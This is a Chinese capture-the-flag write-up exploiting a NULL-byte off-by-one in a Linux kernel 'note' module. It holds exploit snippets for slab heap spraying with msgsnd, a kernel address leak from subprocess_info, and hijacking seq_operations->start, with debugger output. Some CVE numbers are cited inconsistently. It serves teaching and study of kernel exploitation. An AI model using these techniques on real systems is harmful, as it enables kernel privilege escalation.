


#### 静态分析

* 保护

  * module保护

    只开启了`NX`保护

    ```
    gdb-peda$ checksec
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : ENABLED
    PIE       : disabled
    RELRO     : disabled
    ```

  * kernel保护

    ```shell
        -append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 kaslr pti=off quiet" \
        -cpu qemu64,+smep \
    ```

    开启了`smep`和`kaslr`保护，SMAP和KPTI保护关闭。

* 漏洞分析

  ```c
  __int64 __fastcall mod_ioctl(__int64 a1, unsigned int cmd, __int64 a3)
  {
    unsigned int user_size; // [rsp+0h] [rbp-18h] BYREF
    __int64 v5; // [rsp+8h] [rbp-10h] user_buffer
  
    if ( copy_from_user(&user_size, a3, 0x10LL) )
      return -14LL;
    if ( user_size > 0x80 )                       // user_size在 0x80以内
      return -22LL;
    mutex_lock(&_mutex);
    if ( cmd == 0xC12ED002 )                      // free
    {
      if ( !note )
      {
  LABEL_10:
        mutex_unlock(&_mutex);
        return -22LL;
      }
      kfree(note);
      note = 0LL;
    }
    else if ( cmd <= 0xC12ED002 )
    {
      if ( cmd != 0xC12ED001 )                    // realloc
        goto LABEL_10;
      if ( note )
        kfree(note);
      size = user_size;
      note = (void *)_kmalloc(user_size, 0x6080C0LL);
      if ( !note )
        goto LABEL_10;
    }
    else if ( cmd == 0xC12ED003 )                 // write to kernel
    {
      if ( !note || user_size > size || copy_from_user(note, v5, user_size) )
        goto LABEL_10;
      *((_BYTE *)note + user_size) = 0;           // NULL byte溢出
    }
    else if ( cmd != 0xC12ED004 || !note || user_size > size || copy_to_user(v5, note, user_size) )
    {
      goto LABEL_10;                              // read to user
    }
    mutex_unlock(&_mutex);
    return 0LL;
  }
  ```

  * 通信结构体

    ```c
    typedef struct house{
    	unsigned long size,
    	unsigned char* buffer
    } house;
    ```

  * 指令包括alloc、free、write、read

    其中，漏洞存在于write时的` *((_BYTE *)note + user_size) = 0`，造成`NULL byte`的堆溢。

    且堆块大小可控，0-0x80，也就是可以造成`kmalloc-0 - 128 `之间的slab溢出NULL BYTE。

    和`CVE-2016-`的漏洞相似。

#### 漏洞利用

针对`slab`堆块的管理机制，需要利用`NULL Byte`溢出修改一个free'd堆块的`fd`指针，使其指向一个可控的地址，定向分配得到该堆块C，如果C是kernel内的结构体，包含函数指针，将可以用于控制kernel执行流程。

攻击图如下：



但是，由于只能够覆盖B的fd指针的最后一个字节为NULL，为了更精准的覆盖得到C，需要可控B原来的fd值。

* 利用思路
  * 在同一个slab上，构造Free'd B在A之后（连续相邻）
  * 溢出A修改B的fd指向C
  * 分配大小一致的两个object，第一次会占B的位置，第二次将**得到C**
  * 如果A、B内容可控，就使得C是任意地址
  * 如果C中包含内核函数指针，就可以劫持控制流。

##### Kmalloc-Size

首先，需要选择合适大小的object，避免出现B的fd最低位最初就是`0x00`的现象。

同时需要有对应大小的可利用的内核结构体，在CVE-2016-6178里用到的结构体是`subprocess_info`，大小0x60，但是分配的cache是`kmalloc-128`。

```c
struct subprocess_info {
        struct work_struct work;
        struct completion *complete;
        char *path;
        char **argv;
        char **envp;
        int wait;
        int retval;
        int (*init)(struct subprocess_info *info, struct cred *new);
        void (*cleanup)(struct subprocess_info *info);
        void *data;
    };
```

在`CVE-2016-6178`的利用中提到，`socket`函数能够在内核分配i得到`subprocess_info`结构。

其调用链如下：

```
socket() -- __sock_create -- __request_module -- call_modprobe -- call_usermodehelper_exec -- call_usermodehelper_freeinfo -- info->cleanup
```

在__sock_create中，如果`famliy`没有注册，将调用`request_module`尝试自动加载module。

```
int __sock_create(struct net *net, int family, int type, int protocol,
			 struct socket **res, int kern)
{
	...
    if (rcu_access_pointer(net_families[family]) == NULL)
   		 request_module("net-pf-%d", family);
	...
}
```

`request_module`最终调用`call_modprobe`，通过`modprobe_path`加载module。

```c
int __request_module(bool wait, const char *fmt, ...)
{
	...
		ret = call_modprobe(module_name, wait ? UMH_WAIT_PROC : UMH_WAIT_EXEC);
	...
}
```

在`call_modprobe`中，需要调用全局变量`modprobe_path`完成加载module，并定义了一个`subprocess_info`。

```c
static int call_modprobe(char *module_name, int wait)
{
	struct subprocess_info *info;
	...
	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
					 NULL, free_modprobe_argv, NULL);
	if (!info)
		goto free_module_name;

	return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
}
```

在`call_usermodehelper_setup`分配`subprocess_info`结构并初始化相关字段

```c
struct subprocess_info *call_usermodehelper_setup(char *path, char **argv,
		char **envp, gfp_t gfp_mask,
		int (*init)(struct subprocess_info *info, struct cred *new),
		void (*cleanup)(struct subprocess_info *info),
		void *data)
{
	struct subprocess_info *sub_info;
	sub_info = kzalloc(sizeof(struct subprocess_info), gfp_mask);
	if (!sub_info)
		goto out;

	INIT_WORK(&sub_info->work, __call_usermodehelper);
	sub_info->path = path;
	sub_info->argv = argv;
	sub_info->envp = envp;

	sub_info->cleanup = cleanup;
	sub_info->init = init;
	sub_info->data = data;
  out:
	return sub_info;
}
```

在`subprocess_info`结构体初始化完成后，通过`call_usermodehelper_exec`完成执行用户程序`modprobe_path`加载模块。

```c
int call_usermodehelper_exec(struct subprocess_info *sub_info, int wait)
{
	DECLARE_COMPLETION_ONSTACK(done);
	int retval = 0;

	if (!sub_info->path) {
		call_usermodehelper_freeinfo(sub_info);
		return -EINVAL;
	}
	...
}
```

当`subprocess_info`的path字段为NULL（默认是/sbin/modprobe）时，将会调用`call_usermodehelper_freeinfo`释放结构

```c
static void call_usermodehelper_freeinfo(struct subprocess_info *info)
{
	if (info->cleanup)
		(*info->cleanup)(info);
	kfree(info);
}
```

清理工作由`cleanup`指针函数完成，默认是`free_modprobe_argv`，如果该指针被修改，就可以劫持内核程序执行流程。

```c
static void free_modprobe_argv(struct subprocess_info *info)
{
	kfree(info->argv[3]); /* check call_modprobe() */
	kfree(info->argv);
}
```

##### 堆喷

要想在可控地址分配一个`subprocess_info`，首先需要利用NULL-Off-By-One完成堆溢出修改fd。

其中A和B需要在堆地址上连续，且在freelist上A->next是B，通过覆盖B的next指针最低位，指向一个可控的地址。在`kmalloc-128`的freelist上，堆块的地址对齐有以下两种情况：



左情况下，B的next指针最低位本就是0x00，NULL-Off-By-One攻击不起作用。

右情况下，B的next指针本是`...0x180`，溢出后覆盖为`0x100`，即指向了B本身；换言之，通过右图的溢出方式，可以连续两次分配B地址。第一次分配为内容可控的堆块（这里是note），第二次分配可利用的内核结构体（这里是subprocess_info）。

首先，简单的利用测试下free一个note堆块后的kmalloc-128的freelist分布。

代码：

```c
	note_alloc(0x80);
	memset(buffer, 'a', 0x80);
	note_write(buffer, 0x80);		// vuln
	note_free();
```

free之后的堆分布

```assembly
gdb-peda$ x/20gx 0xffff89d54edc1600
0xffff89d54edc1600:	0xffff89d54edc1580	0x6161616161616161
0xffff89d54edc1610:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1620:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1630:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1640:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1650:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1660:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1670:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1680:	0xffff89d54edc1000	0xffffffffffffffff
```

可以看到在这里，A的next并不是与A连续的堆地址，并且A的地址并不是`...0x080`；导致修改next后的堆块不可控。

A的next指向的并不是连续地址，证明在free之前，kmalloc-128已经有了大量的空闲堆块，所以需要用kmalloc-128堆块占位，通过`msgsnd`可以达到目的。

```c

#define MSGSPRAY(qid, msgbuf, times) \
	for(int i=0; i<times; i++) {\
		msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext)-0x30, 0);}

int main()
{

	unsigned char buffer[0x100];
	int qid; 

	open_dev();
	qid = msgget(IPC_PRIVATE, IPC_CREAT | IPC_EXCL);
	if(qid == -1){
		puts("[!] Failed to msgget");
		exit(-1);
	}
	struct msgbuf_80 msgbuf = {.mtype = 1};
	memset(msgbuf.mtext, '1', 0x50);

	MSGSPRAY(qid, msgbuf, 0x30);	// 占据0x30个（多一些，占完所有kmalloc-128的空闲堆块）

	note_alloc(0x80);
	memset(buffer, 'a', 0x80);
	note_write(buffer, 0x80);		// vuln
	note_free();
}
```

此时，释放note之后的堆分布连续，并且NULL-Off-By-One成功修改B的next指向B自身`0xffff8c824de1a200`。

```assembly
gdb-peda$ x/20gx 0xffff8c824de1a180
0xffff8c824de1a180:	0xffff8c824de1a200	0x6161616161616161
0xffff8c824de1a190:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a1a0:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a1b0:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a1c0:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a1d0:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a1e0:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a1f0:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a200:	0xffff8c824de1a200	0x0000000000000000
0xffff8c824de1a210:	0x0000000000000000	0x0000000000000000
```

##### 利用

在满足了上述堆分布状态之后，就可以再连续三次分配kmalloc-128：

* 第一次占位释放的A
* 第二次占位B，且控制内容
* 第三次分配一个subprocess_info到B，由于在第二次中控制了B的内容，使得subprocess_info内容完全可控。

```c
	MSGSPRAY(qid, msgbuf, 0x1);		// space at A (free'd note)


	memset(buffer, 0, 8);		 
	note_alloc(0x80);
	note_write(buffer, 0x80);	//  make B's fd is NULL, altherwise next allocate crash

	// get subprocess_info
	socket(22, AF_INET, 0);		
	note_read(buffer, 0x80);
	note_free();
```

成功在可控的堆上分配得到`subprocess_info`

```c
gdb-peda$ x/10gx 0xffff91760ca15200
0xffff91760ca15200:	0x0000000000000000	0xffff91760ca15208
0xffff91760ca15210:	0xffff91760ca15208	0xffffffffb0660160
0xffff91760ca15220:	0x0000000000000000	0xffffffffb122c540
0xffff91760ca15230:	0xffff91760ca350c0	0xffffffffb122c460
0xffff91760ca15240:	0x0000000000000000	0x0000010000000006
gdb-peda$ x/s 0xffffffffb122c540   
0xffffffffb122c540:	"/sbin/modprobe"
```

##### 泄漏地址

`subprocess_info`结构体中存在内核函数指针，其中在`call_usermodehelper_setup`中初始化的`info.work.func`为函数`__call_usermodehelper`，在subprocess_info结构偏移0x18处。

```c
	INIT_WORK(&sub_info->work, __call_usermodehelper);
```

在`kallsyms`中是`call_usermodehelper_exec_work`，偏移`0x60160`

```
/ # cat /proc/kallsyms | grep call_usermodehelper_exec_work
ffffffffb0660160 t call_usermodehelper_exec_work
....
ffffffffb0600000 T startup_64
```

泄漏代码：

```
	note_read(buffer, 0x80);

	call_usermodehelper_exec_work = ((unsigned long*)buffer)[0x3];
	kernel_base = call_usermodehelper_exec_work - 0x60160;
	printf("[*] call_usermodehelper_exec_work: 0x%lx\n", call_usermodehelper_exec_work);
	printf("[*] kernel_base: 0x%lx\n", kernel_base);
```

##### 劫持控制流

有了内核的地址，和一个可控的`subprocess_info`结构，就可以修改结构体指针达到劫持控制流的目的。

但是有一个问题，在上述获得`subprocess_info`的过程中，发现该结构体的allocate和free是在同一个代码路径中的，也就意味着没有机会泄漏后再去修改`cleanup`指针。

并且，由于上述对kmalloc-128的操作，使得其堆分布被一定程度破坏，想要第二次获取`subprocess_info`直接修改cleanup会造成crash。

此时，可以考虑利用NULL-Off-By-One控制其他cache的内核结构体，如kmalloc-32的`seq_operations`。

```c
struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
};
```

由于`/proc`文件系统每次读取的数据只能是1个page，如果超过则需要多次读取，因此出现了`seq_file`，对文件的操作主要定义在`seq_operations`中，该结构体在open `/proc`系统文件时会创建，因此可以和`msgsnd`类似的方式堆喷，相同的利用方式来获得一个可控的`seq_operations`，并且只要`/proc`文件fd没有close，该结构体不会被释放，其函数指针都可以在用户态对fd操作实现执行。

堆喷获取可控的`seq_operations`：

```
	// heap spray seq_operations
	int sfd;
	for(int i=0; i<0x85; i++)
	{
		sfd = open("/proc/self/stat", 0);
	}
	puts("[+] Heap Spray seq_operations done.");

	note_alloc(0x20);
	memset(buffer, 'B', 0x20);
	note_write(buffer, 0x20);
	note_free();
```

此时堆分布：

```assembly
gdb-peda$ x/10gx 0xffff9f49cde46400
0xffff9f49cde46400:	0xffff9f49cde46420	0x4242424242424242
0xffff9f49cde46410:	0x4242424242424242	0x4242424242424242
0xffff9f49cde46420:	0xffff9f49cde46400	0x0000000000000000
0xffff9f49cde46430:	0x0000000000000000	0x0000000000000000
0xffff9f49cde46440:	0xffff9f49cde46460	0x0000000000000000
```

同样的，再连续分配三次可以得到可控的`seq_operations`，不同的是这里重复分配的堆块是A。

```
	note_alloc(0x20);						// A
	sfd = open("/proc/self/stat", 0);		// padding
	sfd = open("/proc/self/stat", 0);		// target same address as A
```

再通过write修改target的`seq_operetion`结构指针`start`，通过read对应的fd即可触发执行`start`。

```
	*((unsigned long*)buffer) = 0xdeadbeef;
	note_write(buffer, 0x20);
	// trigger
	read(sfd, buffer, 1);
```

成功劫持控制流：

```assembly
Modules linked in: note(O)
CR2: 00000000deadbeef
---[ end trace 259da42406172f69 ]---
RIP: 0010:0xdeadbeef
Code: Bad RIP value.
```

之后就是构造ROPchain，绕过SMEP达到提取的目的了。

#### 参考

[Exploit CVE-2016-6178](https://duasynt.com/blog/cve-2016-6187-heap-off-by-one-exploit)

[Linux内核通用堆喷射](https://duasynt.com/blog/linux-kernel-heap-spray)

[Kernel Exploit用到的结构体](https://www.cnblogs.com/helica/p/12572931.html)

